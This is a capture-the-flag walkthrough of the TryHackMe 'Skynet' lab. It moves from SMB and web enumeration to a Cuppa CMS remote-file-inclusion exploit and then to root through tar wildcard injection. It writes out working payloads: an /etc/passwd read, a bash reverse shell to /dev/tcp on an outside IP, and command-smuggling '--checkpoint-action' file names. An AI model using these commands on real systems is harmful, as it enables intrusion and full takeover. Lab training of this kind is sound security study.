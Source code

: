 # Enumeration

We begin with an autorecon scan, followed by an nmap scan.
 
![1422fa228645db8325993638401f751d.png](/Skynet/_resources/1422fa228645db8325993638401f751d.png)

![40c6a4e5aa7e17de9c78db3393f2b60f.png](/Skynet/_resources/40c6a4e5aa7e17de9c78db3393f2b60f.png)

![f82c683fe31af33de7f187e50d37a5e5.png](/Skynet/_resources/f82c683fe31af33de7f187e50d37a5e5.png)
 
Let's take a look at the web server. We run gobuster to check for any interesting directories; we can also check the feroxbuster output given by autorecon.

```bash
gobuster dir -u http://10.10.104.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o /home/kali/Documents/THM/Skynet/gobuster.txt -x .php,.txt,.html
```

We see that the machine is hosting Squirrelmail at `/squirrelmail`; we might be able to use this later to access a user's emails.
 
![1b14df4dcf59de842b8a36581a8dc679.png](/Skynet/_resources/1b14df4dcf59de842b8a36581a8dc679.png)
 
We also saw that Samba is running on ports 139 and 445. Let's enumerate it. Luckily, autorecon already did this for us.

```txt
ORT    STATE SERVICE     REASON         VERSION
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET

Host script results:
|_smb-vuln-ms10-061: false
| smb-enum-sessions: 
|_  <nobody>
|_smb-system-info: ERROR: Script execution failed (use -d to debug)
| smb-ls: Volume \\10.10.104.171\anonymous
| SIZE   TIME                 FILENAME
| <DIR>  2020-11-26T16:04:00  .
| <DIR>  2019-09-17T07:20:17  ..
| 163    2019-09-18T03:04:59  attention.txt
| <DIR>  2019-09-18T04:42:16  logs
| 0      2019-09-18T04:42:13  logs\log2.txt
| 471    2019-09-18T04:41:59  logs\log1.txt
| 0      2019-09-18T04:42:16  logs\log3.txt
```

Autorecon also gave us information about the share permissions and the share contents.

```txt
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	Skynet Anonymous Share
	milesdyson                                        	NO ACCESS	Miles Dyson Personal Share
	IPC$                                              	NO ACCESS	IPC Service (skynet server (Samba, Ubuntu))
```

```txt
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	anonymous                                         	READ ONLY	Skynet Anonymous Share
	.\anonymous\*
	dr--r--r--                0 Thu Nov 26 11:04:00 2020	.
	dr--r--r--                0 Tue Sep 17 03:20:17 2019	..
	fr--r--r--              163 Tue Sep 17 23:04:59 2019	attention.txt
	dr--r--r--                0 Wed Sep 18 00:42:16 2019	logs
	.\anonymous\logs\*
	dr--r--r--                0 Wed Sep 18 00:42:16 2019	.
	dr--r--r--                0 Thu Nov 26 11:04:00 2020	..
	fr--r--r--                0 Wed Sep 18 00:42:13 2019	log2.txt
	fr--r--r--              471 Wed Sep 18 00:41:59 2019	log1.txt
	fr--r--r--                0 Wed Sep 18 00:42:16 2019	log3.txt
	milesdyson                                        	NO ACCESS	Miles Dyson Personal Share
	IPC$                                              	NO ACCESS	IPC Service (skynet server (Samba, Ubuntu))
```

We can also use enum4linux to enumerate the Samba shares. (Autorecon does this, too, by the way.)

Let's access the Samba shares using `smbclient //10.10.104.171/anonymous`. Note that this is the only share which we have access to. We press enter when prompted to input a password, and then we are granted access. Looking around, we find a file called `attention.txt` (which we saw earlier in the enum4linux/autorecon output). Use `get attention.txt` to transfer the file to our local machine. We see that it contains an announcement concerning employee passwords.
 
![2d8ca1999c93a2dcaa1a2aceb815d4eb.png](/Skynet/_resources/2d8ca1999c93a2dcaa1a2aceb815d4eb.png)
 
In the same directory containing the `attention.txt` file, we find another directory called `logs` which contains three log files.
 
![7f55dcc4f282c841915286f36393fffa.png](/Skynet/_resources/7f55dcc4f282c841915286f36393fffa.png)
 
`log2.txt` and `log3.txt` are empty, but `log1.txt` contains a list of (presumably) passwords. Since we already know a potential point of entry (via Squirrelmail), so let's try to bruteforce milesdyson's password using the list we just found. We could use Hydra to do this; since the password list is relatively short, we'll just do this manually. Luckily, I didn't have to get very far into the list before I got a hit.
 
![912fe309cec3cd634b655fb75bb27594.png](/Skynet/_resources/912fe309cec3cd634b655fb75bb27594.png)
 
Let's look around. It doesn't take long before we find milesdyson's password.
 
![16a7c62d4f22fd5ae4e4c90f8262470b.png](/Skynet/_resources/16a7c62d4f22fd5ae4e4c90f8262470b.png)
 
We now have access to the milesdyson share. We log in as milesdyson using the password we just found, using the command `smbclient //10.10.104.171/milesdyson -U milesdyson`. We look around for some interesting files.
 
![1e923d703bb3ab21b7f2b7f9def09882.png](/Skynet/_resources/1e923d703bb3ab21b7f2b7f9def09882.png)

![e48e982ec44ff98c798394186b21c546.png](/Skynet/_resources/e48e982ec44ff98c798394186b21c546.png)
 
Among the various notes on AI and pandas, we find the aptly-named `important.txt`. We copy this file to our location machine and read it. Item 1 contains a what appears to be a directory. (Admittedly, I knew I was looking for a directory thanks to the THM question prompt. It doesn't look like a standard directory, so maybe it's not so obvious.)
 
![c3b68ae0b09efa332f46e132680b23a4.png](/Skynet/_resources/c3b68ae0b09efa332f46e132680b23a4.png)
 
Navigating to this hidden directory, we find Miles' personal page.
 
![cb3142c091b6dcef0fb486692ba41005.png](/Skynet/_resources/cb3142c091b6dcef0fb486692ba41005.png)
 
We can run gobuster again to check for any subdirectories.
```bash
gobuster dir -u http://10.10.104.171/<hidden directory>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Eventually we find that `/administrator` is a valid subdirectory. Navigating to this page leads to a Cuppa login form.
 
![595a787c143a76469032bd42891a427a.png](/Skynet/_resources/595a787c143a76469032bd42891a427a.png)
 
<br>

# Exploitation

At this point, we have access to a hidden subdirectory containing a Cuppa login form. We don't have much to go on, but a quick searchsploit search for Cuppa shows the existence of a [remote file inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) exploit.
 
![7625f4004a5627aa9cdd25797e853595.png](/Skynet/_resources/7625f4004a5627aa9cdd25797e853595.png)
 
We'll use the exploit from [exploit-db](https://www.exploit-db.com/exploits/25971). To use it, we simply append `/alerts/alertConfigField.php?urlConfig=<path to file>` to the current url (where we found the login page). For instance, we can view the `/etc/passwd` file by navigating to `/alerts/alertConfigField.php?urlConfig=/Skynet//Skynet//Skynet//Skynet/../etc/passwd`. However, what we would like to do is set up a reverse shell using this method.

Set up a netcat lister with `rlwrap nc -lvnp 9999`. Download and modify [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), host it on an http server with `python3 -m http.server,` and use the above exploit to navigate to `/alerts/alertConfigField.php?urlConfig=http://10.6.30.43:8000/php-reverse-shell.php`. After a short while, the target machine completes the request, download the reverse shell php script, and we obtain a reverse shell.
 
![c805141dd6b0c16cf4845b1bb05e7171.png](/Skynet/_resources/c805141dd6b0c16cf4845b1bb05e7171.png)
 
<br>

# Post-exploitation

Now that we have initial access to the system, we can begin looking for flags. With our current privileges, easily find the `user.txt` flag in Miles' home directory.
 
![4856ecb521d0dcd629bcad974e2dbb62.png](/Skynet/_resources/4856ecb521d0dcd629bcad974e2dbb62.png)
 
It remains to find the root flag. Let's go ahead and upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")` for convenience. We will use LinPEAS to search for possible privesc avenues. We'll host a web server on our local machine in order to download `linpeas.sh` with `wget`; here, we'll want to save the file to the `/tmp` directory since we have write permissions there. Now use `chmod +x linpeas.sh` to make the file executable, and run it with `./linpeas.sh`. 

There are a few ways we can proceed from here, but we'll focus on looking at cronjobs. One interesting scheduled process sticks out.
 
![205bd8e761c33f959206f27942aaefae.png](/Skynet/_resources/205bd8e761c33f959206f27942aaefae.png)

![39aa328167e5abfbc3ec9158cbde5ac8.png](/Skynet/_resources/39aa328167e5abfbc3ec9158cbde5ac8.png)
 
We could try editing the `backup.sh`, but unfortunately we don't have write permissions. Let's look at the contents.
 
![93e4f30926ea59f72b46ccb80bad439a.png](/Skynet/_resources/93e4f30926ea59f72b46ccb80bad439a.png)
 
So, whenever this script runs, it moves into the `/var/www/html` directory and uses `tar` to compress the contents of the directory into a file in Miles' backups directory. Note that the script executes every minute, and it runs with root privileges.

If we look up the tar binary on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can use it to spawn a new shell with root privileges. We need to use the following sequence of commands to add the relevant options before we can spawn the shell.

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Navigating to `/var/www/html`, we verify that all requires files are in the right place.
 
![e6f6c3f0e63acc1605ec8f7525027d77.png](/Skynet/_resources/e6f6c3f0e63acc1605ec8f7525027d77.png)
 
Now set up a netcat listener on a different port and run the following command to catch the reverse shell.

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

A quick search reveals the location of the `root.txt` flag.
 
![cf10e8a25a88a3c4e39d55b903d95fe2.png](/Skynet/_resources/cf10e8a25a88a3c4e39d55b903d95fe2.png)

![e57d9a5902ba8f9eff3a0df207d4fb7b.png](/Skynet/_resources/e57d9a5902ba8f9eff3a0df207d4fb7b.png)